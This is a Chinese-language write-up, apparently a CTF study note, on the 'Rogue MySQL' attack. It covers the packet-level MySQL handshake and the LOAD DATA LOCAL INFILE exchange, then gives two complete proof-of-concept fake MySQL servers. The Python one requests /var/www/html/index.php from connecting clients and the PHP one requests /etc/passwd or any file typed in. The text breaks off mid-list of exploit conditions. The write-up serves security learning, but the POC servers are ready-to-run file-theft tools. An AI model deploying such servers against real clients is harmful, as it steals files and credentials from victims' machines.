









# Rogue MySQL

## 目录

#### <a href = "#0x01">原理概述</a>

#### <a href = "#0x02">MySQL协议分析</a>

## <a name = "0x01">0x01 原理概述</a>	

是个挺老的漏洞了，但是比赛还是会见到所以系统分析一下.

之前学SSRF的时候看到过SSRF to RCE MySQL，那时候也说了MySQL的对话式通信过程

大概就是客户端发送一个操作请求，服务端会根据客户端发送的请求对客户端进行一个响应。
这里会出现这样一个问题，假如一个操作需要俩步请求来实现的时候，客户端在发送第一次请求后就不会保留这个请求，会直接把它丢掉，也就是说后续的请求要根据服务端的响应来做出，也就意味着服务端可以在个过程中对客户端进行一个欺骗。

但是一般的情况都是MySQL客户端发送一个SQL语句然后服务端返回查询结果，没有利用点。但是在MySQL中存在一个语法``LOAD DATA INFILE``是用来读取一个文件内容并插入到表中，即可以读取服务器文件也可以读取客户端文件。

​	语法``load data local inflie "/data/test.csv" into table TestTable``

​	这个过程我们也可以形象的去描述

```
1.C：请把我本地的/data/test.csv的内容插入到TestTable中去
2.S: 请把你本地的/data/test.csv的内容发给我
3.C：好的，这是我本地的/data/test.csv的内容 balabalala //1.C 不会保留
4.S：成功/失败
```


对攻击流程的一个大致描述

```
1.Attacker向Victim提供Fake MySQL Server的地址、账户、密码
2.Victim向Attacker发起请求，并尝试身份认证
3.攻击者的MySQL接收到受害者的连接请求、攻击者发送正常的问候、身份验证正确、并向Victim的MySQL客户端请求文件
4.受害者的MySQL客户端认为身份验证正确、执行Attacker发来的请求，通过LOAD DATA INLNE功能将文件内容回传给MySQL服务器。
5.Attacker接收到Victim服务器上的信息，读取文件成功，攻击完成
```

所以攻击流程清楚后，问题就在于怎么构建一个MySQL服务器。

## <a name = "0x02">0x02 MySQL协议分析</a>

构建MySQL服务器并不是很困难，毕竟我们只要完成对客户的一个身份认证就可以了，所以我们呢可以用WireShark抓包分析一下MySQL的登陆认证流程。

打开WireShark准备抓包



这里我们用MySQL WorkBench来登录我们的MySQL服务器，当然你也可以用Navicat啥的



在WorkBench完成登录操作



看下WireShark抓取情况



可以看到抓到了很多包，因为是在本地进行实验，所以也无法通过IP分辨服务器和客户端，但是根据我们之前说的认证流程，应该可以判断第一条肯定是服务器发出的所以我们先看第一个

第一个数据包：



其中我们仔细看一下被选中的MySQL Protocol部分



第一个握手数据包的数据内容取决于服务器的版本和服务器配置，具体可参见文档


MySQL从3.21.0开始默认就是V10版本也就是上图所示，那么按照V10版本的规定第一个字节应该是``0a``,但我们实际抓到的包使``4e``，具体原因是⬇


大概就是说数据包前三个字节是整个数据包从第五个字节开始的长度。（第四个字节有其他意义，代表序列 ID）

我们看下我们的数据包



标明了长度为78字节，这里78的十六进制数就是``4e``,不过数据是按照小端排序的``4e 00 00``，实际顺序应该是

``00 00 4e``，这点在我们读取长度的时候需要注意；第四个字节使这个包的序列ID，每次无论客户端还是服务端发送数据这个序列ID都会增加，知道下一个新命令开始又会置为``00``;后面的数据就是服务器的banner信息，可以参考文档不细说。

然后看第二个数据包，因为我们是要做一个Fake Server出来所以就不那么细致的分析客户端的包，但是有一点要注意的是我们可以通过客户端发送来的数据判断客户端是否支持``LOAD DATA LOCAL``，具体是看第五个字节的第一位，如果是1表示支持，是0不支持。如下图


第三个数据包是一个通用返回包，表示认证是否成功，具体格式可参考文档：


前四个字节和前面一样表示的是包长度和序列号，这里是身份验证的第三部所以序列号为2

包内容的话因为响应OK所以第一个字节的值为``00``;第二个字节是此次操作影响的数据行数，这里为``00``；第三个字节是上次插入数据的ID，还是``00``；第四字节是服务器状态标志，根据服务器设置不同而不同；第五字节是警告数，这里是``00``，其他三个字节是额外信息，这里全部为``00``，至此认证结束！

第四个包就是发送了一个``COM_QUERY``除了包长度和序列号剩下的包主体就由两部分构成，一是文本协议类型（`Text Protocol`），这里是一个查询所以就是`COM_QUERY`，对应的字节应该填`03`，剩下的就是SQL语句的文本内容了。


第五个包

第五个包是分析的重点

我们把wrieshark抓取界面清空，然后MySQL随便开一张表，执行一个``load data local infile``命令进行抓包



可以看到我们这个操作完成后一共抓到了四个包


我们一个个看一下。

第一个包，也是一个``COM_QUERY``，执行的是我们键入的SQL语句


看下第二个包：


前四个字节依旧是长度和序列号，从``fb``开始我们分析一下，看一下官方文档




这里我们的包``1e 00 00 01``四个字节分别是数据包长度和流程序列号，也就是我们上图``0xfb+filename``的长度，后面从43到74就是文件名。我们需要伪造的就是这里，以此来达到我们向客户端请求文件的目的。

第三个包

按照上面的流程图我们就应该清楚第三个包肯定是客户端给服务端的文件内容，看包之前，我们先分析一下内容可能会是什么。首先：前四个字节是长度加序列号，这里文件内容为``123456789``,其长度为``09 00 00``（注意，这里是小段字节序）；序列号是``02``;后面是文本的内容，所以这个数据包就应该是``09 00 00 02 31 32 33 34 35 36 37 38 39``，看一下我们的包是不是这样：


（这里第一个是``0b``是应为我当时文本手残打错了，就懒得重新抓了QAQ...

然后我们发现后面还有四个字节``00 00 00 03``

这是啥呢

看文档里有这样一句话


也就是说如果客户端发来了内容，那么其后面还会跟上一个空的数据包，这个数据包前三字节``00 00 00``说明数据长度为0，``03``说明是第三个数据包。

已经拿到数据了，所以第四个包看不看意义不大，截个图，有兴趣的可以看着官方文档瞅瞅


## <a name = "0x03">0x03 POC</a>

Python

```python
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers


PORT = 3306

log = logging.getLogger(__name__)

log.setLevel(logging.INFO)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
    '/var/www/html/index.php',
)

#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
            os.dup2(null, i)
        except OSError as e:
            if e.errno != 9: raise
    os.close(null)


class LastPacket(Exception):
    pass

class OutOfOrder(Exception):
    pass

class mysql_packet(object):
    packet_header = struct.Struct('<Hbb')
    packet_header_long = struct.Struct('<Hbbb')
    def __init__(self, packet_type, payload):
        if isinstance(packet_type, mysql_packet):
            self.packet_num = packet_type.packet_num + 1
        else:
            self.packet_num = packet_type
        self.payload = payload

    def __str__(self):
        payload_len = len(self.payload)
        if payload_len < 65536:
            header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
        else:
            header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

        result = "{0}{1}".format(
            header,
            self.payload
        )
        return result

    def __repr__(self):
        return repr(str(self))

    @staticmethod
    def parse(raw_data):
        packet_num = ord(raw_data[0])
        payload = raw_data[1:]

        return mysql_packet(packet_num, payload)


class http_request_handler(asynchat.async_chat):

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',  # Protocol
                    '5.6.28-0ubuntu0.14.04.1' + '\0',
                    '\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00',
                ))            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
                        raise LastPacket()
                    elif packet.payload[0] in '\x02':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    elif packet.payload == '\x00\x01':
                        self.push(None)
                        self.close_when_done()
                    else:
                        raise ValueError()
                else:
                    if self.sub_state == 'File':
                        log.info('-- result')
                        log.info('Result: %r', data)

                        if len(data) == 1:
                            self.push(
                                mysql_packet(packet, '\0\0\0\x02\0\0\0')
                            )
                            raise LastPacket()
                        else:
                            self.set_terminator(3)
                            self.state = 'LEN'
                            self.order = packet.packet_num + 1

                    elif self.sub_state == 'Auth':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    else:
                        log.info('-- else')
                        raise ValueError('Unknown packet')
            except LastPacket:
                log.info('Last packet')
                self.state = 'LEN'
                self.sub_state = None
                self.order = 0
                self.set_terminator(3)
            except OutOfOrder:
                log.warning('Out of order')
                self.push(None)
                self.close_when_done()
        else:
            log.error('Unknown state')
            self.push('None')
            self.close_when_done()


class mysql_listener(asyncore.dispatcher):
    def __init__(self, sock=None):
        asyncore.dispatcher.__init__(self, sock)

        if not sock:
            self.create_socket(socket.AF_INET, socket.SOCK_STREAM)
            self.set_reuse_addr()
            try:
                self.bind(('', PORT))
            except socket.error:
                exit()

            self.listen(5)

    def handle_accept(self):
        pair = self.accept()

        if pair is not None:
            log.info('Conn from: %r', pair[1])
            tmp = http_request_handler(pair)


z = mysql_listener()
# daemonize()
asyncore.loop()

```

PHP

```php
<?php
function unhex($str) { return pack("H*", preg_replace('#[^a-f0-9]+#si', '', $str)); }

$filename = "/etc/passwd";

$srv = stream_socket_server("tcp://0.0.0.0:3306");

while (true) {
  echo "Enter filename to get [$filename] > ";
  $newFilename = rtrim(fgets(STDIN), "\r\n");
  if (!empty($newFilename)) {
    $filename = $newFilename;
  }

  echo "[.] Waiting for connection on 0.0.0.0:3306\n";
  $s = stream_socket_accept($srv, -1, $peer);
  echo "[+] Connection from $peer - greet... ";
  fwrite($s, unhex('45 00 00 00 0a 35 2e 31  2e 36 33 2d 30 75 62 75
                    6e 74 75 30 2e 31 30 2e  30 34 2e 31 00 26 00 00
                    00 7a 42 7a 60 51 56 3b  64 00 ff f7 08 02 00 00
                    00 00 00 00 00 00 00 00  00 00 00 00 64 4c 2f 44
                    47 77 43 2a 43 56 63 72  00                     '));
  fread($s, 8192);
  echo "auth ok... ";
  fwrite($s, unhex('07 00 00 02 00 00 00 02  00 00 00'));
  fread($s, 8192);
  echo "some shit ok... ";
  fwrite($s, unhex('07 00 00 01 00 00 00 00  00 00 00'));
  fread($s, 8192);
  echo "want file... ";
  fwrite($s, chr(strlen($filename) + 1) . "\x00\x00\x01\xFB" . $filename);
  stream_socket_shutdown($s, STREAM_SHUT_WR);
  echo "\n";

  echo "[+] $filename from $peer:\n";

  $len = fread($s, 4);
  if(!empty($len)) {
    list (, $len) = unpack("V", $len);
    $len &= 0xffffff;
    while ($len > 0) {
      $chunk = fread($s, $len);
      $len -= strlen($chunk);
      echo $chunk;
    }
  }

  echo "\n\n";
  fclose($s);
}

```


利用此漏洞需要几个条件

mysql 某个位置为1

HTTP